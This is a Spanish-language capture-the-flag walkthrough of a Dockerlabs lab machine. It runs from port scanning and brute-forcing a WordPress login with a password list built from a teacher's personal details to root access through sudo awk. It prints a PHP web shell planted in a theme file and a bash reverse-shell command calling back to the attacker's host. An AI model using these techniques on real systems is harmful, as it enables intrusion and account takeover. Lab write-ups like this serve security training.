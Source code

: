 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh escolares.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
  <ins>En este caso, la dirección IP de la máquina a vulnerar es la 172.17.0.2</ins>.

  ![image](https://github.com/user-attachments/assets/e0204175-0ab6-40bf-af96-7c1def865cd0)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/c92fb834-9deb-4bb4-aa32-5a3abe4c6e46)

Podemos ver que se encuentran abiertos los puertos ***22*** y ***80***, correspondientes a los servicios ***SSH*** y ***HTTP***, respectivamente.

Nos dirigimos al navegador y escribimos la dirección URL http://172.17.0.2:80:

  ![image](https://github.com/user-attachments/assets/8fb83317-6439-4dd1-8e14-97c037f9b898)

Vamos a obtener los subdirectorios existentes en la página web para conseguir visualizar otras páginas que puedan darnos más información. Debido a que revisando el código fuente de la página y mediante el uso del comando ***ffuf*** para realizar fuzzing no detectamos nuevas páginas, vamos a emplear un comando similar llamado ***gobuster***, con el que obtendremos las páginas existentes en distintos formatos. En este caso, vamos a buscar aquellas que tengan extensión .*html*, .*php*, .*py*, .*txt*.

  ![image](https://github.com/user-attachments/assets/55c52aea-0363-4f59-819d-39d35b87b77e)

De los resultados encontrados, nos fijamos en "**/wordpress**", ya que esto significa que la página web se ha realizado con este servicio.

  ![image](https://github.com/user-attachments/assets/0d4a3730-84bd-4df3-8a2e-d28a2b6fc77b)

Vemos que hay una entrada existente creada por el usuario "**luisillo**".

Escribimos en el navegador la ruta http://172.17.0.2/wordpress/wp-admin y se nos muestra el formulario de inicio de sesión a la página de Administración del sitio web:

  ![image](https://github.com/user-attachments/assets/9e14777a-7353-4f12-b9b7-385eb34080e2)

A pesar de contar con el nombre de usuario, necesitamos obtener la contraseña para conseguir acceder, por lo que tendremos que realizar un ataque de fuerza bruta con la finalidad de obtener la clave del usuario "luisillo".

Volviendo a la página de inicio, nos damos cuenta que hay una sección llamada "**Profesores**", en la que se presentan de manera pública los datos personales de algunos de los docentes de la universidad; incluso, se especifica que el administrador del WordPress es el profesor Luis.

  ![image](https://github.com/user-attachments/assets/dca870c0-6587-4105-893d-dd1f2d6feaf5)

Ahora, para obtener la contraseña del usuario utilizaremos la herramienta **CUPP**, la cual no viene por defecto instalada en Kali Linux. CUPP (*Common User Passwords Profiler*) es una herramienta diseñada para generar listas de contraseñas personalizadas basadas en información específica de un usuario objetivo, ya que generalmente los usuarios emplean contraseñas que cuentan con datos personales (nombre, fecha de nacimiento, nombre de su mascota, etc...) en lugar de contraseñas genéricas, a la hora de crear sus cuentas.

Una vez hemos instalado CUPP, escribimos en la terminal **cupp -i** para ejecutarlo en modo interactivo.

  ![image](https://github.com/user-attachments/assets/77ae2455-c770-473e-8b6c-7fb1bb3aa43a)

Después de establecer los datos personales de la víctima, se crea un diccionario personalizado con contraseñas generadas en base a la información obtenida.

Escaneamos las vulnerabilidades del sitio web creado con WordPress usando la línea de código **wpscan --url http://escolares.dl/wordpress/ -U luisillo -P luis.txt**

  ![image](https://github.com/user-attachments/assets/9d72782e-8922-4788-946c-2573b5a69f78)

Podemos ver que la ejecución del comando nos devuelve unas claves válidas para el formulario de Login de WordPress:

  ![image](https://github.com/user-attachments/assets/cfef7120-7393-4830-8da3-10c789cd3435)

La contraseña del usuario "luisillo" es "Luis1981". Probamos las credenciales en el formulario.

  ![image](https://github.com/user-attachments/assets/020b1e5b-6aa0-42e7-b6f3-dc3d0baa9d72)

Estamos dentro del panel de administración del sitio web. Hay que buscar ahora la manera de acceder a la máquina desde el sitio web.

  ![image](https://github.com/user-attachments/assets/1509d6e2-f34b-4440-80ff-37f73bae1d8f)

Abrimos WP File Manager y nos vamos a la ruta **wp-content>themes>twentytwentytwo>index.php** y en ese archivo insertamos el siguiente código:

**&lt;?php echo "&lt;pre&gt;". shell_exec($_REQUEST['cmd']). "&lt;/pre&gt;" ?&gt;**

  ![image](https://github.com/user-attachments/assets/5bf5ecaa-8197-4a8a-b1e4-77ee3dbf7bc8)

En el navegador buscamos la dirección URL http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php y seguido del index.php escribimos la cadena de texto "**?cmd=**" para poder ejecutar cualquier comando de consola y ver la salida de este en la página. Esto es lo que se nos muestra al ejecutar el comando whoami:

  ![image](https://github.com/user-attachments/assets/3944ebe6-6065-48f9-8a34-dbd46e71ee76)

Somos el usuario www-data. Sabiendo que podemos ejecutar cualquier comando, vamos a realizar una reverse shell utilizando la página web [https://www.revshells.com/](https://www.revshells.com/).

Nos ponemos en escucha por el puerto 443:

  ![image](https://github.com/user-attachments/assets/e1457987-1cc0-4930-9788-bfa6629494b9)

Una vez tenemos la reverse shell (en mi caso, *bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'*) tendremos que descodificarlo para transformarlo en un formato válido para la dirección URL. Para ello usamos el Decoder disponible en Burp Suite y copiamos la cadena generada para ejecutar la reverse shell.

  ![image](https://github.com/user-attachments/assets/ae654792-cd69-466d-8c73-6a5ead1daf2a)

Y una vez ejecutamos esto, la página se queda cargando, por lo que al mirar en nuestra terminal abierta vemos que la reverse shell ha funcionado correctamente:

  ![image](https://github.com/user-attachments/assets/b4f34c07-3794-4d7d-81f7-1589277c13a5)

Realizamos búsquedas dentro de los directorios para encontrar información que nos permita posteriormente escalar privilegios:

  ![image](https://github.com/user-attachments/assets/178c7726-ba74-4b05-b0f2-bbf6e33fcb77)

Nos encontramos con un archivo de texto cuyo contenido es la contraseña del usuario luisillo.

  ![image](https://github.com/user-attachments/assets/3b98c025-a843-4825-800b-08e82ca230d0)

Al ejecutar el comando **sudo -l** para visualizar los archivos binarios que puede ejecutar el usuario luisillo, vemos que este usuario puede ejecutar el binario /usr/bin/awk como usuario root, sin necesidad de ingresar su contraseña.

  ![image](https://github.com/user-attachments/assets/aa6bf254-599d-4809-98d1-9a6c4923abcc)

Miramos en [GTFOBins](https://gtfobins.github.io/) acerca del binario ***/usr/bin/awk***.

  ![image](https://github.com/user-attachments/assets/ca0e29aa-b86c-4088-97a8-2ccb20121bf4)

  ![image](https://github.com/user-attachments/assets/f7a1a4de-3622-4d8a-9c25-59efaf1550cc)

Hemos logrado acceder como el usuario root.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/210b25a9-87f2-4329-a9a0-b9cec257d249)
